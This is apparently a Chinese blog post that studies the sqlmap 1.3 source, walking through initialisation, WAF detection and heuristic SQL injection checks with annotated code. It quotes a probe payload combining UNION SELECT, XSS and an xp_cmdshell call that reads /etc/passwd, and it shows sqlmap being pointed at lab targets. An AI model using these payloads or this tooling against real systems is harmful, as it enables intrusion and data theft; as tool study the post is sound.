

# SQLMAP 源码简单分析

这里分析的版本是 1.3  
源码写的有好的地方和也有不好的地方  
这里学习下整体的流程和一些技巧    
看下是怎么样去测试注入的  
这里就是最简单的 -u 一路跟下去  

静态代码和断点调试跟进代码

## 简单的使用

找了个注入点 -u 指定url  
最简单的注入  
`http://192.168.19.128:8089/Less-1/?id=1`  

`python sqlmap.py -u "http://192.168.19.128:8089/Less-1/?id=1"`  

这里先看下主函数  

### main

这里主要的点是对于 ctrl+c的异常捕获还有else用法 exit的方式  

```python
    try:
        main()
    # 对于 ctrl+c的异常捕获后pass
    # 是捕获异常的方式 我之前写的和网上很多的都是捕获信号量的方式
    except KeyboardInterrupt:
        pass
    # 无论有没有异常都执行对多线程进行停止
    finally:
        # Reference: http://stackoverflow.com/questions/1635080/terminate-a-multi-thread-python-program
        # 返回正在运行的线程数 大于1 直接退出
        if threading.activeCount() > 1:
            os._exit(0)
# 这里的else是如果没有异常就执行else下的程序否则不执行
else:
    # cancelling postponed imports (because of Travis CI checks)
    from lib.controller.controller import start

```

这里对 退出做下了解  

os._exit()与 sys.exit()  

sys.exit()调用后会引发SystemExit异常，可以捕获此异常做清理工作  
os._exit()直接将python解释器退出，余下的语句不会执行  

一般来说os._exit() 用于在线程中退出  
sys.exit() 用于在主线程中退出  

对于退出状态码  
exit(0)：无错误退出  
exit(1)：有错误退出  

### 初步准备

主要是如下4个函数  

```python
def main():
    """
    Main function of sqlmap when running from command line.
    """

    try:
        dirtyPatches()
        checkEnvironment()
        setPaths(modulePath())
        banner()
```

#### dirtyPatches  

这个是打一些适配补丁  

对于httplib 接收长结果设置兼容    
对于windows下异常崩溃的问题  

```python
def dirtyPatches():
    """
    Place for "dirty" Python related patches
    """

   # 接受过长的结果行（例如，SQLi导致HTTP标头响应）
   # 设置接收长的结果
    httplib._MAXLINE = 1 * 1024 * 1024

    # add support for inet_pton() on Windows OS
    if IS_WIN:
        from thirdparty.wininetpton import win_inet_pton

    # Reference: https://github.com/nodejs/node/issues/12786#issuecomment-298652440
    # 对于windows cmd下python编码异常崩溃的问题解决
    codecs.register(lambda name: codecs.lookup("utf-8") if name == "cp65001" else None)

```

#### checkEnvironment

检测环境 环境变量等将一些全局使用的变量加载到全局   


```python
# 检测环境
def checkEnvironment():
    try:
        # python编译成exe后获取绝对路径
        os.path.isdir(modulePath())
    except UnicodeEncodeError:
        errMsg = "your system does not properly handle non-ASCII paths. "
        errMsg += "Please move the sqlmap's directory to the other location"
        logger.critical(errMsg)
        raise SystemExit

    if distutils.version.LooseVersion(VERSION) < distutils.version.LooseVersion("1.0"):
        errMsg = "your runtime environment (e.g. PYTHONPATH) is "
        errMsg += "broken. Please make sure that you are not running "
        errMsg += "newer versions of sqlmap with runtime scripts for older "
        errMsg += "versions"
        logger.critical(errMsg)
        raise SystemExit

    # Patch for pip (import) environment
    if "sqlmap.sqlmap" in sys.modules:
        # 如果sys.modules 字典 也就是导入了 sqlmap.sqlmap 那么就对应的获取把data 异常都加载到全局 做全局变量 这个data里面是各种多各个文件共享的一些变量
        # 这里可以看到用 getattr的形式获取 sys.modules中的里面的变量
        # 这样把那些变量加载到全局
        for _ in ("cmdLineOptions", "conf", "kb"):
            globals()[_] = getattr(sys.modules["lib.core.data"], _)

        for _ in ("SqlmapBaseException", "SqlmapShellQuitException", "SqlmapSilentQuitException", "SqlmapUserQuitException"):
            globals()[_] = getattr(sys.modules["lib.core.exception"], _)

```

#### setPaths

设置绝对路径  
这里对于 一些额外的路径加载成绝对路径 这里我们的分析没有涉及到这些像绕waf变形脚本和shell等
```python
def setPaths(rootPath):
    """
    Sets absolute paths for project directories and files
    """

    paths.SQLMAP_ROOT_PATH = rootPath

    # sqlmap paths
    paths.SQLMAP_EXTRAS_PATH = os.path.join(paths.SQLMAP_ROOT_PATH, "extra")
    paths.SQLMAP_PROCS_PATH = os.path.join(paths.SQLMAP_ROOT_PATH, "procs")
    paths.SQLMAP_SHELL_PATH = os.path.join(paths.SQLMAP_ROOT_PATH, "shell")
    paths.SQLMAP_TAMPER_PATH = os.path.join(paths.SQLMAP_ROOT_PATH, "tamper")
```

#### banner

就是输出sqlmap  

上面是  main的环境的初始化的一些操作  

#### 获取命令行参数等数据

```python
# 存储原始命令行选项以备以后恢复
cmdLineOptions.update(cmdLineParser().__dict__)
initOptions(cmdLineOptions)
```

这里从如下导入的  
cmdLineOptions 初始值为一个自定义的字典类    
继承自字典并做了一些封装 用于存储数据
```python
from lib.core.data import cmdLineOptions
cmdLineOptions = AttribDict()
```

使用 如下
```python
    >>> foo = AttribDict()
    >>> foo.bar = 1
    >>> foo.bar
    1
```  

字典的update操作 合并字典
`cmdLineOptions.update(cmdLineParser().__dict__)`  

然后调用 initOptions  
这个命令行函数简单跟入下
主要是初始化 config   
将命令行参数和配置文件合并到一起 作为一个conf
这里有三个函数
```python
def initOptions(inputOptions=AttribDict(), overrideOptions=False):
    _setConfAttributes()
    _setKnowledgeBaseAttributes()
    _mergeOptions(inputOptions, overrideOptions)
```

`_setConfAttributes` 是初始化配置信息 conf  
这个conf后面很多地方在使用  
可以简单看下代码都是初始化一些变量值   

```python
def _setConfAttributes():
    """
    This function set some needed attributes into the configuration
    singleton.
    """

    debugMsg = "initializing the configuration"
    logger.debug(debugMsg)

    conf.authUsername = None
    conf.authPassword = None
    conf.boundaries = []
    conf.cj = None
    conf.dbmsConnector = None
    conf.dbmsHandler = None
    conf.dnsServer = None
    conf.dumpPath = None
    conf.hashDB = None
    conf.hashDBFile = None
    conf.httpCollector = None
    conf.httpHeaders = []
    conf.hostname = None
    conf.ipv6 = False
    conf.multipleTargets = False
    conf.outputPath = None
    conf.paramDict = {}
    conf.parameters = {}
    conf.path = None
    conf.port = None
    conf.proxyList = None
    conf.resultsFilename = None
    conf.resultsFP = None
    conf.scheme = None
    conf.tests = []
    conf.trafficFP = None
    conf.HARCollectorFactory = None
    conf.fileWriteType = None
```

`_setKnowledgeBaseAttributes`  
将各种的值初始化给 knowledge base    
kb 也就是后面经常使用的

`_mergeOptions`  
将命令行选项与配置文件和默认选项合并。


这里 初始化了 kb conf 这两个后面经常使用的数据对象  

### 其他操作

然后 判断是否是api  
如果是的话就会重新加载输出流和日志  

```python
if conf.get("api"):
    # heavy imports
    from lib.utils.api import StdDbOut
    from lib.utils.api import setRestAPILog

    # Overwrite system standard output and standard error to write
    # to an IPC database
    sys.stdout = StdDbOut(conf.taskid, messagetype="stdout")
    sys.stderr = StdDbOut(conf.taskid, messagetype="stderr")
    setRestAPILog()
```

### init 根据参数和命令行初始化一些配置相关的数据  

比如说 cookie  代理 设置dbms等  

这个init方法的位置是  

`from lib.core.option import init`

```python
def init():
    """
    Set attributes into both configuration and knowledge base singletons
    based upon command line and configuration file options.
    """
    # 设置属性，基于命令行和配置文件选项。
    _useWizardInterface() # 用户向导程序
    setVerbosity() # 设置debug等级
    _saveConfig() # 将命令行选项保存到sqlmap配置INI文件中
    _setRequestFromFile() # 设置http请求从文件中
    _cleanupOptions() # 清理配置选项
    _cleanupEnvironment() # 清理环境
    _dirtyPatches() # 补丁相关
    _purgeOutput() # 安全删除(purges)输出目录。
    _checkDependencies() # 检测丢失的依赖
    _createTemporaryDirectory() # 创建运行的临时目录
    _basicOptionValidation() # 检测选项是否有效
    _setProxyList() # 设置代理列表
    _setTorProxySettings() # 设置Tor代理
    _setDNSServer() # 设置DNS服务器
    _adjustLoggingFormatter() # 调整日志格式
    _setMultipleTargets() # 如果在多个目标中运行，只定义一种参数
    _setTamperingFunctions() # 设置tamper脚本
    _setWafFunctions() # 载入waf检测脚本
    _setTrafficOutputFP() # 设置记录http日志文件
    _setupHTTPCollector() # 清理http收集
    _resolveCrossReferences()
    _checkWebSocket() # 检测websocket-client模块调用
    parseTargetUrl() # 解析目标url
    parseTargetDirect() # 解析目标DBMS
    if any((conf.url, conf.logFile, conf.bulkFile, conf.sitemapUrl, conf.requestFile, conf.googleDork, conf.liveTest)):
        # 如果设置了上述选项，配置相关http
        _setHTTPTimeout() # 设置超时
        _setHTTPExtraHeaders() # 设置Headers
        _setHTTPCookies() # 设置Cookies
        _setHTTPReferer() # 设置Referer
        _setHTTPHost() # 设置Host
        _setHTTPUserAgent() # 设置UserAgent
        _setHTTPAuthentication() # 设置HTTPAuthentication
        _setHTTPHandlers() # 检查并设置所有HTTP请求的HTTP / SOCKS代理。
        _setDNSCache() # 设置DNS缓存
        _setSocketPreConnect()
        _setSafeVisit() # 检查并设置安全访问选项。
        _doSearch() # 使用搜索平台搜索结果并存储
        _setBulkMultipleTargets()
        _setSitemapTargets() # 解析SitemapTargets中的目标
        _checkTor() # 检测Tor
        _setCrawler() # 设置爬虫
        _findPageForms() # 寻找网页的表单
        _setDBMS() # 强制DBMS选项
        _setTechnique()
    _setThreads() # 设置现场
    _setOS() # 强制OS
    _setWriteFile() # 写入文件
    _setMetasploit() # Metasploit相关设置
    _setDBMSAuthentication()
    loadBoundaries() # 载入Boundaries
    loadPayloads() # 载入Payloads
    _setPrefixSuffix() # 设置前后缀
    update() # 更新sqlmap
    _loadQueries() # 加载查询的xml /查询
```

这里就是很多更多的针对命令行的参数进行设置更新  

##### init里一些有用的小技巧

看到一个设置socket发送小数据快一些的操作 针对大小数据不同性能选择的算法  
会立即发送还是等待一定数据量再发送数据 获取更快的响应速度

```python
   # Reference: https://www.techrepublic.com/article/tcp-ip-options-for-high-performance-data-transmission/
s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
```

还有再请求头添加设置不使用缓存而是获取最新的页面  
`conf.httpHeaders.append((HTTP_HEADER.CACHE_CONTROL, "no-cache"))`  

#### sqlmap的测试框架

确保功能 减少bug 每个新加功能或者修改保证对之前的功能没有影响  
分为 覆盖测试 smokeTest     
     注入功能测试 liveTest  

```python
if conf.smokeTest:
    from lib.core.testing import smokeTest
    smokeTest() # 功能覆盖测试
elif conf.liveTest:
    from lib.core.testing import liveTest
    liveTest() # 测试sqlmap的注入功能
    # livetests.xml里面加载用于测试注入功能的网站和配置样例，进行全面的注入测试
```
### start() 主要的函数

如果不是测试则导入 controller 里的start方法 并调用  
这里的 profile 方法是用于图形化输出 程序运行的一些性能瓶颈等用于优化  
可以直观的看出整个程序每个步骤的占用时间百分比，函数调用次数，颜色能直观的表示出瓶颈所在  


```python
 else:
from lib.controller.controller import start
if conf.profile:
    from lib.core.profiling import profile
    globals()["start"] = start
    profile()
else:
    try:
        start()
    except thread.error as ex:
        if "can't start new thread" in getSafeExString(ex):
            errMsg = "unable to start new threads. Please check OS (u)limits"
            logger.critical(errMsg)
            raise SystemExit
        else:
            raise
```

这个就是主要的测试注入的方法了  

**因为代码太长了 适当的删除了一些 不是很重要的代码**  

``` python
def start():
    """
检查url访问的稳定性以及所有的GET,POST,Cookie和UA里面的参数是否是动态参数，以便来进行注入测试
    """

    if conf.hashFile: # 创建文件hashFile
        crackHashFile(conf.hashFile)

    if conf.direct:  # 这个是参数有 -d才会走到这一步 一开始我直接就跟入进去了 一直看花了挺长时间 这个直接连接数据库的时候 -d 指定才有进来 但是后面也有调用同样的函数
        initTargetEnv()
        # 初始化目标环境
        # 里面会对用户--data参数的输入进行编码
        setupTargetEnv()
        # 创建输出的目录 对目录权限的检测没有权限就改成临时目录
        # 看下面
        action()
        # 如果指定了 -d 连接数据库
        return True

    if conf.url and not any((conf.forms, conf.crawlDepth)):
        kb.targets.add((conf.url, conf.method, conf.data, conf.cookie, None))
        # 添加完是这样的
        # OrderedSet([(u'http://43.247.91.228:81/vulnerabilities/sqli/?id=1', None, None, u'PHPSESSID=p71qjlkrs95vhmlccvkbkko151; security=low', None)])

    # 多个目标地址
    if kb.targets and len(kb.targets) > 1:
        infoMsg = "sqlmap got a total of %d targets" % len(kb.targets)
        logger.info(infoMsg)

    for targetUrl, targetMethod, targetData, targetCookie, targetHeaders in kb.targets:
        try:
            # 检验连接 是配置了参数 --check-internet才会执行
            if conf.checkInternet:
                infoMsg = "checking for Internet connection"
                logger.info(infoMsg)

            # 将测试目标的一些数据写到conf 存储
            conf.url = targetUrl
            conf.method = targetMethod.upper() if targetMethod else targetMethod
            conf.data = targetData
            conf.cookie = targetCookie
            conf.httpHeaders = list(initialHeaders)
            conf.httpHeaders.extend(targetHeaders or [])
            conf.httpHeaders = [conf.httpHeaders[i] for i in xrange(len(conf.httpHeaders)) if conf.httpHeaders[i][0].upper() not in (__[0].upper() for __ in conf.httpHeaders[i + 1:])]

            initTargetEnv() 
            # 见下面代码分析 主要是对目标地址环境的一些数据进行初始化
            parseTargetUrl()
            # 简单解析下url 比如说 http 或者https等 
            testSqlInj = False
            # 下面就是针对 get的进行解析参数 key对应value  
            # parameter (u'id', u'1') 拿到参数
            # sqlmap使用了很多正则
            # 还要判断这个参数有没有测试过 
            if PLACE.GET in conf.parameters and not any([conf.data, conf.testParameter]):
                for parameter in re.findall(r"([^=]+)=([^%s]+%s?|\Z)" % (re.escape(conf.paramDel or "") or DEFAULT_GET_POST_DELIMITER, re.escape(conf.paramDel or "") or DEFAULT_GET_POST_DELIMITER), 
                conf.parameters[PLACE.GET]):
                    paramKey = (conf.hostname, conf.path, PLACE.GET, parameter[0])
                    # 如果这个参数没有测试过 设置测试并跳出循环
                    if paramKey not in kb.testedParams:
                        testSqlInj = True
                        break
            else:
                paramKey = (conf.hostname, conf.path, None, None)
                if paramKey not in kb.testedParams:
                    testSqlInj = True
            # 就是之前跑过了已经存储了注入的信息了
            if testSqlInj and conf.hostname in kb.vulnHosts:
                if kb.skipVulnHost is None:
                    message = "SQL injection vulnerability has already been detected "
                    message += "against '%s'. Do you want to skip " % conf.hostname
                    message += "further tests involving it? [Y/n]"

                    kb.skipVulnHost = readInput(message, default='Y', boolean=True)

                testSqlInj = not kb.skipVulnHost
            # 没有 也就是没有参数需要测试跳过
            if not testSqlInj:
                infoMsg = "skipping '%s'" % targetUrl
                logger.info(infoMsg)
                continue
            # 多个目标的话总计加1
            # 见下面分析
            setupTargetEnv()
            # checkConnection 检验连接 就是输出测试目标地址可以连接的
            if not checkConnection(suppressOutput=conf.forms) or not checkString() or not checkRegexp():
                continue
            # 见下面分析 检验是否存在waf
            checkWaf()

            if conf.identifyWaf:
                identifyWaf()# 使用waf识别脚本

                if not any((conf.string, conf.notString, conf.regexp)) and PAYLOAD.TECHNIQUE.BOOLEAN in conf.tech:

                    # 检测页面是否稳定
                    # 同一页两次，每次请求内有小延迟
                    # 那么就假设它是稳定的。
                    checkStability()
                    # [19:18:35] [INFO] testing if the target URL content is stable
                    # [19:18:35] [INFO] target URL content is stable
                #对可测试参数列表进行一些优先级排序
                parameters = conf.parameters.keys()

                #测试列表顺序（从前到后）
                orderList = (PLACE.CUSTOM_POST, PLACE.CUSTOM_HEADER, PLACE.URI, PLACE.POST, PLACE.GET)
                # 对于设置的测试级别解析不能的地方 比如 referer cookie host等 
                # 根据命令行参数等是否跳过一些参数
                        ..........

                        elif PAYLOAD.TECHNIQUE.BOOLEAN in conf.tech or conf.skipStatic:
                            # 判断这个参数是不是动态的类似 ?id =1 与?id=2是不是一样的内容
                            check = checkDynParam(place, parameter, value)
                            # 这里检测完会输出是否动态的
                            if not check:
                                warnMsg = "%s parameter '%s' does not appear to be dynamic" % (paramType, parameter)
                                logger.warn(warnMsg)

                                if conf.skipStatic:
                                    infoMsg = "skipping static %s parameter '%s'" % (paramType, parameter)
                                    logger.info(infoMsg)

                                    testSqlInj = False
                            else:
                                infoMsg = "%s parameter '%s' appears to be dynamic" % (paramType, parameter)
                                logger.info(infoMsg)
                        # 将参数添加到测试参数
                        kb.testedParams.add(paramKey)

                        if testSqlInj: #  开始测试注入 
                            try:
                                # 详见下面分析
                                # 启发式检测sql注入
                                check = heuristicCheckSqlInjection(place, parameter)
                                # 这里 返回 3 HEURISTIC_TEST.POSITIVE 也就是这个 启发式检测阳性 也就是成功
                                if check != HEURISTIC_TEST.POSITIVE: # 不成功的话输出跳过这个参数
                                    if conf.smart or (kb.ignoreCasted and check == HEURISTIC_TEST.CASTED):
                                        infoMsg = "skipping %s parameter '%s'" % (paramType, parameter)
                                        logger.info(infoMsg)
                                        continue
                                # 输出开始注入测试
                                infoMsg = "testing for SQL injection on %s " % paramType
                                infoMsg += "parameter '%s'" % parameter
                                logger.info(infoMsg)
                                # 真正检测注入的地方
                                injection = checkSqlInjection(place, parameter, value)
                                proceed = not kb.endDetection
                                injectable = False

                                if getattr(injection, "place", None) is not None:
                                    if NOTE.FALSE_POSITIVE_OR_UNEXPLOITABLE in injection.notes:
                                        kb.falsePositives.append(injection)
                                    else:
                                        injectable = True
                                        # 将注入成功的存储到kb里面
                                        kb.injections.append(injection)

            else:
                # Flush the flag
                kb.testMode = False

                _saveToResultsFile()
                _saveToHashDB()
                _showInjections()
                _selectInjection()

            if kb.injection.place is not None and kb.injection.parameter is not None:
                if conf.multipleTargets:
                    message = "do you want to exploit this SQL injection? [Y/n] "
                    condition = readInput(message, default='Y', boolean=True)
                else:
                    condition = True

                if condition:
                    action()


```

接下来具体跟入上面的几个函数  

##### initTargetEnv()

初始化目标环境 是否指定了数据库 是否有自定义注入点  
例如: `sqlmap -u "http://targeturl/param1/value1*/param2/value2/"`  
这里的星 还支持 `r"(?i)%INJECT[_ ]?HERE%"` 这种正则形式的 没有的话就是上面的 `*`
`from lib.core.target import initTargetEnv`  

```python
def initTargetEnv():
    """
    初始化目标环境.
    """
    if conf.multipleTargets:
        if conf.hashDB:
            conf.hashDB.close()

        if conf.cj:
            resetCookieJar(conf.cj)

        conf.paramDict = {}
        conf.parameters = {}
        conf.hashDBFile = None

        _setKnowledgeBaseAttributes(False)
        _restoreMergedOptions()
        _setDBMS() # 如果指定则使用指定的dbms 也就是数据库类型  
        # 要对传入的dbsm检测下后 conf.dbms = dbms  
    if conf.data:
        class _(unicode):
            pass

        kb.postUrlEncode = True

        for key, value in conf.httpHeaders:
            if key.upper() == HTTP_HEADER.CONTENT_TYPE.upper():
                kb.postUrlEncode = "urlencoded" in value
                break

        if kb.postUrlEncode:
            # 如果有 urlencoded 那么对数据进行urldecode编码处理  
            original = conf.data
            conf.data = _(urldecode(conf.data))
            setattr(conf.data, UNENCODED_ORIGINAL_VALUE, original)
            kb.postSpaceToPlus = '+' in original

    match = re.search(INJECT_HERE_REGEX, conf.data or "") or re.search(INJECT_HERE_REGEX, conf.url or "")
    kb.customInjectionMark = match.group(0) if match else CUSTOM_INJECTION_MARK_CHAR
    # INJECT_HERE_REGEX = r"(?i)%INJECT[_ ]?HERE%"
    # CUSTOM_INJECTION_MARK_CHAR = '*'  自定义注入标记字符
```

里面有个写法很好  `kb.postUrlEncode = "urlencoded" in value`  

```python
# 这种写法 相当于
if "urlencoded" in value:
    kb.postUrlEncode = True
```
##### setupTargetEnv  设置一些目标测试相关的环境文件等

设置目标环境信息等

```python
def setupTargetEnv():
    _createTargetDirs() # 创建输出的目录
    _setRequestParams()
    # 检查请求参数，获取get参数 还有POST方式的附加--data的内容
    # 检索注入标记符并给出提示询问是否对标记点检测注入
    # 根据上面的注入标记法来操作
    _setHashDB()
    # session.sqlite 对这个会话存储的设置和检查
    _resumeHashDBValues()
    # 对session.sqlite基本历史信息的读入 数据库类型
    _setResultsFile()
    # 创建保存多目标模式输出结果的文件
    _setAuthCred()
    # 将当前目标的身份验证凭据（如果有）添加到密码管理器
    _setAuxOptions()
    # 设置辅助（主机相关）选项
```

##### checkWaf

检测是否存在waf  

```python
def checkWaf():

    if any((conf.string, conf.notString, conf.regexp, conf.dummy, conf.offline, conf.skipWaf)):
        return None
    # 恢复之前存储的数据 判断之前测试的时候有没有waf
    _ = hashDBRetrieve(HASHDB_KEYS.CHECK_WAF_RESULT, True)
    if _ is not None:
        if _:
            warnMsg = "previous heuristics detected that the target "
            warnMsg += "is protected by some kind of WAF/IPS"
            logger.critical(warnMsg)# 结束了直接 有waf
        return _ # 否则把false返回 就是没有waf
```
  


下面是需要检测waf的是 发了混合的paylaod 然后检测相似度（第一次会检测）
后面检测过了就不会走下面的检查了  
`checking if the target is protected by some kind of WAF/IPS`

生成payload  

  


用于检测防火墙的所以有各种payload  

```python
u'5856 AND 1=1 UNION ALL SELECT 1,NULL,\'<script>alert("XSS")</script>\',table_name FROM information_schema.tables WHERE 2>1--/**/; EXEC xp_cmdshell(\'cat ../../../etc/passwd\')#'
```

最后请求检测是否存在waf  
为什么请求了一次是因为 sqlmap会直接请求然后把请求的数据存储到当前线程 threadData中  
所以请求后直接与上一次比较就可以了  
```python
    try:
        retVal = Request.queryPage(place=place, value=value, getRatioValue=True, noteResponseTime=False, silent=True, disableTampering=True)[1] < IDS_WAF_CHECK_RATIO
        # IDS_WAF_CHECK_RATIO = 0.5
        # retVal是 1.0 因为是一样的
        # 所以这里返回False 也就是没有waf
    except SqlmapConnectionException:
        retVal = True
    finally:
        kb.matchRatio = None
```

是这个函数  Request.queryPage  
很厉害(对payload标识符进行替换生成随机字符串 数字等 返回相似度 是否匹配特征值)

最终调用的是这个发起请求

```python
page, headers, code = Connect.getPage(url=uri, get=get, post=post, method=method, cookie=cookie, ua=ua, referer=referer, host=host, silent=silent, auxHeaders=auxHeaders, response=response, raise404=raise404, ignoreTimeout=timeBasedCompare)

```
测试的payload是这个


##### heuristicCheckSqlInjection  启发式注入

启发式检测sql注入 实质是传入 单双引号等引起页面的不同反应进行测试

```python
def heuristicCheckSqlInjection(place, parameter):

    origValue = conf.paramDict[place][parameter] # '1' ?id=1
    paramType = conf.method if conf.method not in (None, HTTPMETHOD.GET, HTTPMETHOD.POST) else place # GET
    # 前后缀 这里的前后缀类似下面的正式注入的边界前后缀
    prefix = ""
    suffix = ""
    randStr = ""

    if conf.prefix or conf.suffix: # 都是空 配置的 
        if conf.prefix:
            prefix = conf.prefix

        if conf.suffix:
            suffix = conf.suffix

    while randStr.count('\'') != 1 or randStr.count('\"') != 1: # randStr 生成的启发式payload 单引号的个数不等于或者双引号的个数不等于1
        # 返回具有给定字符数的随机字符串值
        # 长度10 HEURISTIC_CHECK_ALPHABET
        # HEURISTIC_CHECK_ALPHABET = ('"', '\'', ')', '(', ',', '.') 双引号 单引号 左右括号  逗号 点
        # 随机生成长度为10 的 以上面的为选择的字符串
        randStr = randomStr(length=10, alphabet=HEURISTIC_CHECK_ALPHABET)
        # 例如这样 '),)\'.",(.)'
    # 启发式模式
    kb.heuristicMode = True
    # 设置payload 是将前后缀与 随机字符串拼接
    payload = "%s%s%s" % (prefix, randStr, suffix)
    # 直接就是 randStr
    payload = agent.payload(place, parameter, newValue=payload)
    # 合成半payload 传入 请求类型 测试的参数 上面随机的value值
    # u'id=__PAYLOAD_DELIMITER__1),)\'.",(.)__PAYLOAD_DELIMITER__' 
    # id=1 等于后插入payload分隔符 1后面再加上 随机字符串 然后再payload分隔符
    page, _, _ = Request.queryPage(payload, place, content=True, raise404=False)
    # 这里只是 u'1(("()\'.(..' 最后编码为 '1%28%28%22%28%29%27.%28..'
    kb.heuristicPage = page
    kb.heuristicMode = False

    parseFilePaths(page)
    # 通过返回页面获取可能的路径 也是正则匹配
    result = wasLastResponseDBMSError()
    # 页面是不是有可识别的数据库报错的匹配 有的话返回True 正则匹配页面来获取


    def _(page):
         # 返回 正常页面没有异常字符串 但是启发式请求的返回有异常字符串
         # 'java.lang.NumberFormatException', 'ValueError: invalid literal', 'TypeMismatchException', 'CF_SQL_INTEGER', ' for CFSQLTYPE ', 'cfqueryparam cfsqltype', 'InvalidParamTypeException',
        return any(_ in (page or "") for _ in FORMAT_EXCEPTION_STRINGS)

    casting = _(page) and not _(kb.originalPage) # 有就True  我们这里没有就 False

    # 这里是启发式判断是否有 数据库报错获取数据库类型 代码的执行的错误

    if not casting and not result and kb.dynamicParameter and origValue.isdigit():
        # 上面的没有报错的话走这个 
        randInt = int(randomInt())
        payload = "%s%s%s" % (prefix, "%d-%d" % (int(origValue) + randInt, randInt), suffix)
        payload = agent.payload(place, parameter, newValue=payload, where=PAYLOAD.WHERE.REPLACE)
        result = Request.queryPage(payload, place, raise404=False) # 比较页面是否相似

        if not result:
            # 再不成的话换成字符串再请求一次
            randStr = randomStr()
            payload = "%s%s%s" % (prefix, "%s.%d%s" % (origValue, random.randint(1, 9), randStr), suffix)
            payload = agent.payload(place, parameter, newValue=payload, where=PAYLOAD.WHERE.REPLACE)
            casting = Request.queryPage(payload, place, raise404=False)

    kb.heuristicTest = HEURISTIC_TEST.CASTED if casting else HEURISTIC_TEST.NEGATIVE if not result else HEURISTIC_TEST.POSITIVE
    # 根据上面是否匹配了一些异常 数据库报错异常 页面相似度来确认是否可能存在注入
    elif result: # 这里就是从页面返回了数据库类型的报错 于是输出可能是注入的
        infoMsg += "be injectable"
        if Backend.getErrorParsedDBMSes():
            infoMsg += " (possible DBMS: '%s')" % Format.getErrorParsedDBMSes()
        logger.info(infoMsg)

    else:
        infoMsg += "not be injectable"
        logger.warn(infoMsg)

    kb.heuristicMode = True # 设置启发式检测模式为 True
    # xss检测 就是对 '<\'">'  在也没又显示匹配上了
    randStr1, randStr2 = randomStr(NON_SQLI_CHECK_PREFIX_SUFFIX_LENGTH), randomStr(NON_SQLI_CHECK_PREFIX_SUFFIX_LENGTH)
    # 获取两个6位的随机字符串
    # ('xFyTsk', 'rHcreG')
    value = "%s%s%s" % (randStr1, DUMMY_NON_SQLI_CHECK_APPENDIX, randStr2)
    # DUMMY_NON_SQLI_CHECK_APPENDIX = '<\'">'   这个就可以看出来就是xss检测了
    payload = "%s%s%s" % (prefix, "'%s" % value, suffix)
    # '\'xFyTsk<\'">rHcreG'
    payload = agent.payload(place, parameter, newValue=payload)
    page, _, _ = Request.queryPage(payload, place, content=True, raise404=False)

    paramType = conf.method if conf.method not in (None, HTTPMETHOD.GET, HTTPMETHOD.POST) else place
    # 存在的话就胡输出可能存在 xss  
    if value.lower() in (page or "").lower(): # 如果这个 value 还在返回的页面就可能存在xss
        infoMsg = "heuristic (XSS) test shows that %s parameter " % paramType
        infoMsg += "'%s' might be vulnerable to cross-site scripting (XSS) attacks" % parameter
        logger.info(infoMsg)
    # 还可能存在文件包含的一些特征
    for match in re.finditer(FI_ERROR_REGEX, page or ""):
        # FI_ERROR_REGEX '(?i)[^\\n]{0,100}(no such file|failed (to )?open)[^\\n]{0,100}'
        # 可能存在文件包含
        if randStr1.lower() in match.group(0).lower():
            infoMsg = "heuristic (FI) test shows that %s parameter " % paramType
            infoMsg += "'%s' might be vulnerable to file inclusion (FI) attacks" % parameter
            logger.info(infoMsg)
            break

    kb.heuristicMode = False

    return kb.heuristicTest
```

##### checkSqlInjection

正式注入检测

```python
def checkSqlInjection(place, parameter, value):
    #在这里存储有关边界和有效载荷的详细信息
    # 这里继承了 AttribDict 就封装的字典用于存储一些注入成功的数据
    injection = InjectionDict()

    # 加载当前线程数据
    threadData = getCurrentThreadData()
    # 调整边界顺序
    # 如果参数的value只是数字类型的 调整下排序顺序 数字的在前面如果是数字
    if value.isdigit():
        kb.cache.intBoundaries = kb.cache.intBoundaries or sorted(copy.deepcopy(conf.boundaries), key=lambda boundary: any(_ in (boundary.prefix or "") or _ in (boundary.suffix or "") for _ in ('"', '\'')))
        boundaries = kb.cache.intBoundaries
    elif value.isalpha():
        kb.cache.alphaBoundaries = kb.cache.alphaBoundaries or sorted(copy.deepcopy(conf.boundaries), key=lambda boundary: not any(_ in (boundary.prefix or "") or _ in (boundary.suffix or "") for _ in ('"', '\'')))
        boundaries = kb.cache.alphaBoundaries
    else:
        boundaries = conf.boundaries

    # 设置测试True
    kb.testMode = True

    paramType = conf.method if conf.method not in (None, HTTPMETHOD.GET, HTTPMETHOD.POST) else place
    tests = getSortedInjectionTests()
    # 这里根据上面数据库报错的类型确实的数据库的优先级返测试列表 调整的是顺序
    # 每一条如下
    # {'risk': 1, 危险程度 比如数据库删除就比较高 参数的时候也可以配置
